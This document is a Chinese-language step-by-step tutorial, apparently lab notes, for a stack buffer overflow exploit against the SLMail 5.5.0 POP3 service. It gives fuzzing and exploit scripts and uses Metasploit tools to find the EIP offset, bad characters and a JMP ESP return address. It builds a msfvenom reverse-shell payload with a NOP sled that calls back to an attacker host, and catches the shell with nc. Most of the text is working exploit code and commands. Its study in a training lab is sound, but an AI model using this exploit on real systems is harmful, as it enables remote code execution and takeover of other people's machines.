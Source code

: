 以SLMail为例(版本5.5.0)
# 创建脚本，测试缓冲区
```
pop3-pass-fuzz.py
#!/usr/bin/python
# -*- encoding: utf-8 -*-
import socket

#创建一个缓冲区数组，同时递增它们。

buffer=["A"]
counter=100
while len(buffer) <= 30:
    buffer.append("A"*counter)
    counter=counter+200

for string in buffer:
    print "Fuzzing PASS with %s bytes"%len(string)
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    connect=s.connect(('192.168.30.35',110))
    s.recv(1024)
    s.send('USER test\r\n')
    s.recv(1024)
    s.send('PASS ' + string + '\r\n')
    s.send('QUIT\r\n')
    s.close()
```


- 以管理员权限运行SLMail和Immunity Debugger
- Attach-SLMail
- 更改设置:右击-Appearance-font(all)-OEM fixed font   下方右击-Hex-Hex/ASCII(16bytes)

- 点击上方开始按钮后,在kail机运行脚本:    python pop3-pass-fuzz.py
- debugger显示 access violation when executing [41414141]-use Shift+F7/F8/F9 to pass exception to program 时,记录下此时的字节数   观察EBP和EIP的值,已被A(41)填充
- 在ESP上右击Follow in Dump,跳到内存查看


- 关闭debugger,重启slmail服务

# 根据测试结果改写脚本测试
```slmail-pop3.py
#!/usr/bin/python
# -*- encoding: utf-8 -*-

import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

buffer = 'A' * 2700

try:
    print "\nSending evil buffer..."
    s.connect(('192.168.30.35',110))
    data = s.recv(1024)
    s.send('USER username' +'\r\n')
    data = s.recv(1024)
    s.send('PASS ' + buffer + '\r\n')
    print "\nDone!."
except:
    print "Could not connect to POP3!"
```
- 打开Immunity Debugger   Attach-SLMail,开始
- 在kail机运行:   python slmail-pop3.py
- 出现提示信息后,此时EIP也被A填充

- /usr/share/metasploit-framework/tools/exploit/pattern_create.rb
- 使用msf-pattern_create模块,生成2700个字节的字符串: 
```
   msf-pattern_create -l 2700
```
- 用生成的字符串去替换slmail-pop3.py脚本的buffer参数

- 重启slmail服务和debugger,   python slmail-pop3.py

- 读出EIP的填充值,去生成的字符串中检索:   msf-pattern_offset 39694438    [例:]   Exact match at offset 2606

- 将slmail-pop3.py的buffer替换成:     buffer = "A" * 2606 + "B" * 4 + "C" * (2700-2606-4)
- 重启slmail服务和debugger,   python slmail-pop3.py
- 可以观察到,EIP的值已被B(42)填充

# 测试注入长度
- 通常shellcode包含350-400个字节
- 重启slmail服务和debugger,
- 将slmail-pop3.py的buffer替换成:     buffer = "A" * 2606 + "B" * 4 + "C" * (3500-2606-4)
- python slmail-pop3.py   观察到EIP仍被B填充,对ESP进行Follow in Dump,发现其已被填充成C(43)
- 算出此时栈中能利用的最大字节数: 0xA2D0 - 0xA128 = 0x1A8 = 424


- 发送从0x00-0xff字符来找出bad char，通常情况下,0x00都是bad char
重启slmail服务和debugger,修改脚本如下
```
badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)

buffer = "A" * 2606 + "B" * 4 + badchars
```
- python slmail-pop3.py,  follow esp in dump
- 找出其中一个bad char之后,修改badchars变量,继续测试:     重启slmail服务和debugger,   python slmail-pop3.py,  follow esp in dump  重复上述步骤,直到找出所有的bad chars


- 下载mona,  https://github.com/corelan/mona  将mona.py拖放到"PyCommands"文件夹中(在Immunity Debugger应用程序文件夹中)。在c:\python27中安装Python 2.7.14（或更高版本的2.7.xx），从而覆盖与Immunity捆绑在一起的版本。尝试更新mona时需要这样做以避免TLS问题。确保正确安装32位版本的python。
- !mona modules   查看所有的模块
- 其中Rebase表示重启后是否会改变地址,False即不改变;SafeSEH、ASLR、NXCompat这三项都是Windows相关的安全机制;OS Dll表示是否是OS自带的库；即前四列选False，最后一列选True
- 切换到上方的m模块,继续筛选出有执行权限的dll
- 依次对满足上述条件的dll查找是否存在所需指令:
- 右击-Search for-command-jmp esp
- 右击-Search for-Sequence of commands-push esp retn
- 上方切换到c页面,没有任何内容(通常情况下会有)
- 调用msf中的模块,找该命令对应的十六进制数:
```
msf-nasm_shell
nasm > jmp esp
00000000 FFE4                       jmp esp
```
- 对每个找到的dll执行:    !mona find -s "\xff\xe4" -m xxx.dll
- 确定对应的模块:  C:\windows\system32\SLMFC.dll
- 点上方的e,会显示所有被slmail.exe加载的dll文件,找到SLMFC.dll后,双击,加载成功后,上方标题栏会变成[thread xxxxx,module SLMFC]
- 上方切换到k模块,在下方输入:     !mona find -s "\xff\xe4" -m slmfc.dll
- 在找到的结果中,筛选bad char没有的项
- 点击上方最右边蓝色的向右箭头-输入内存地址-跳到内存地址后-右击-copy to clipnoard-address(5F4A358F)
- 修改py脚本:     buffer = "A" * 2606 + "\x8f\x35\x4a\x5f" + "C" * (3500-2606-4)
- 重启slmail服务和debugger,跳到(5F4A358F)内存处,F2设置断点
- python slmail-pop3.py,可以观察到此时程序停在了(5F4A358F)处，右击follow esp in dump,查看栈中的数据
- F7单步调试,进入jmp esp中,观察到程序执行的代码段,全是C


- 重启slmail服务和debugger,使用msfvenom生成shell code payload:
- msfvenom -p windows/shell_reverse_tcp LHOST=192.168.30.5 LPORT=443 -f c -a x86 --platform windows -b "\x00\x0a\x0d"(找到的bad char) -e x86/shikata_ga_nai
- 会得到一串shell code: unsigned char buf[] = "xxxx..."
- 修改py脚本
```
shellcode = ("xxx...")

# \x90指的是nop,这里填写16个字节是为了容错,防止ESP寄存器起始的字节丢失而造成shellcode不能正常执行的情况。

buffer = "A" * 2606 + "\x8f\x35\x4a\x5f" + "\x90" * 16 + shellcode + "C" * (3500-2606-4-351-16)
```
- 在jmp esp的内存地址处F2设置断点,python slmail-pop3.py,在断点处F7进行单步调试,把第八个nop处的值修改成int3(函数中断),然后F7继续执行,到循环处,观察内存中的shell code解码,在CLD处F2添加断点,观察全部解码后的内存空间
- 在kail机进行侦听:   nc -lvp 443     可以看到有回弹shell连接过来     exit

- 重启slmail服务和debugger,
- nc -nvlp 443
- python slmail-pop3.py
- exit
- 此时 nc -v 192.168.30.5 110 发现拒绝连接,说明该服务已未响应
